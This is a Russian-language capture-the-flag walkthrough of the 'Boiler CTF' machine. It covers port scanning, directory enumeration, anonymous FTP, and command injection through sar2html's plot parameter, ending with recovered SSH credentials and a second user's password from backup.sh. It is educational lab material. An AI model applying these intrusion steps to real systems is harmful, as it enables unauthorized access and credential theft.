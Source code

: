 # TASK - Boiler CTF
![Main](./png/main.png)


<details>
  <summary>Ответы на вопросы</summary>

[Task 1] Questions #1
![Answer One](./png/task1.png)
[Task 2] Questions #2
![Answer Two](./png/task1.png)  
</details>   

## User

Для начала необходимо просканить порты : `sudo nmap -sV -p- -T5 -sC -Pn 10.10.211.61` 
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.151
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Видим открытые порты 21 - ftp, 80 - http, 10000 - http (Webmin). Узнаем все дирректории с помощью `dirb`

`dirb http://10.10.224.171/`
```
+ http://10.10.224.171/index.html (CODE:200|SIZE:11321)
==> DIRECTORY: http://10.10.224.171/joomla
==> DIRECTORY: http://10.10.224.171/manual/
+ http://10.10.224.171/robots.txt (CODE:200|SIZE:257)
+ http://10.10.224.171/server-status (CODE:403|SIZE:301)
Entering directory: http://10.10.224.171/joomla/
==> DIRECTORY: http://10.10.224.171/joomla/_archive/
==> DIRECTORY: http://10.10.224.171/joomla/_database/
==> DIRECTORY: http://10.10.224.171/joomla/_files/
==> DIRECTORY: http://10.10.224.171/joomla/_test/
==> DIRECTORY: http://10.10.224.171/joomla/~www/
==> DIRECTORY: http://10.10.224.171/joomla/administrator/
==> DIRECTORY: http://10.10.224.171/joomla/bin/
==> DIRECTORY: http://10.10.224.171/joomla/build/
==> DIRECTORY: http://10.10.224.171/joomla/cache/
==> DIRECTORY: http://10.10.224.171/joomla/components/
==> DIRECTORY: http://10.10.224.171/joomla/images/
==> DIRECTORY: http://10.10.224.171/joomla/includes/
+ http://10.10.224.171/joomla/index.php (CODE:200|SIZE:12484)
==> DIRECTORY: http://10.10.224.171/joomla/installation/
==> DIRECTORY: http://10.10.224.171/joomla/language/
==> DIRECTORY: http://10.10.224.171/joomla/layouts/
==> DIRECTORY: http://10.10.224.171/joomla/libraries/
==> DIRECTORY: http://10.10.224.171/joomla/media/
==> DIRECTORY: http://10.10.224.171/joomla/modules/
==> DIRECTORY: http://10.10.224.171/joomla/plugins/
==> DIRECTORY: http://10.10.224.171/joomla/templates/
==> DIRECTORY: http://10.10.224.171/joomla/tests/
==> DIRECTORY: http://10.10.224.171/joomla/tmp/  
```

Узнаем, что CMS сайта - Joomla, но попытка просканить на уязвимости его оказались безуспешными. Скан был проведен с помощью `JoomScan`
```
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B^[[B[++] Joomla 3.9.12dev

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable
[+] Checking Directory Listing
[++] directory has directory listing :
http://10.10.87.59/joomla/administrator/components
http://10.10.87.59/joomla/administrator/modules
http://10.10.87.59/joomla/administrator/templates
http://10.10.87.59/joomla/images/banners
[+] Checking apache info/status files
[++] Readable info/status files are not found
[+] admin finder
[++] Admin page : http://10.10.87.59/joomla/administrator/
[+] Checking robots.txt existing
[++] robots.txt is not found
[+] Finding common backup files name
[++] Backup files are not found
[+] Finding common log files name
[++] error log is not found
[+] Checking sensitive config.php.x file
[++] Readable config files are not found
Your Report : reports/10.10.87.59/
```
[Описание тулзы](https://kali.tools/?p=1241)

Не забываем про то, что у нас есть ftp 21 порт и пытаемся подключится к нему. Используем логин `anonimous`, для того чтобы подключиться к серверу.

![ftp](png/ftp_ls.png)

Для того, чтобы мы могли получить `.info.txt` необходимо использовать Passive mode FTP.
![fpt_1](png/passive_on.png)

Прочитав данный файл мы получаем - `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!`, сразу идем декриптить это в любой сайт для дешифрования. Я использую [этот](https://www.boxentriq.com/code-breaking/cipher-identifier). 
![Chiper1](./png/chiper1.png)
Так же на сайте имееются еще пару шифров, которые не имеют значения к решению. 

<details>
  <summary>Пример</summary>

![chiper2](./png/chiper2.png)
------------------------------------
![joke_admin](./png/joke_admin.png)
------------------------------------
![robot_txt](./png/robots_txt.png)
------------------------------------
</details> 


Когда мы использовали тулзу `dirb` он обнаружил интересный линк - `http://10.10.87.59/joomla/_test/`
Видим, что используется `sar2html`. Более подробно про него можно прочитать [тут](https://sourceforge.net/projects/sar2html/)

Уязвимость заключается в этом веб-интерфейсе, в параметре `plot=NEW`

![sploitSar2Html](./png/exploitPLOT.png) 

Попробуем вставить туда команду `ls` и посмотрим, что нам покажет. Более подробнее [exploit](https://www.nmmapper.com/st/exploitdetails/47204/41579/sar2html-321-remote-command-execution/) 

![ls_sploit](./png/ls_exploit.png)

Дальше выполним команду `cat log.txt` и увидим пароль и юзера от ssh   `superduperp@$$:basterd`

![cat_log](./png/cat_log.png)

Коннектимся по ssh и заходим на машину `ssh basterd@10.10.87.59 -p 55007` 

![ssh_connect](./png/ssh_conn.png)
![ssh_ls_com](./png/ssh_user.png)

Копируем файл [backup.sh](./backup.sh) себе на машину для дальнейшего изучения `scp -P 55007 basterd@10.10.87.59:/home/basterd/backup.sh /home/nick/file/`.
В нем узнаем пароль от пользователя `stoner:superduperp@$$no1knows`
## User flag
![user_flag](png/user_txt_2.png)

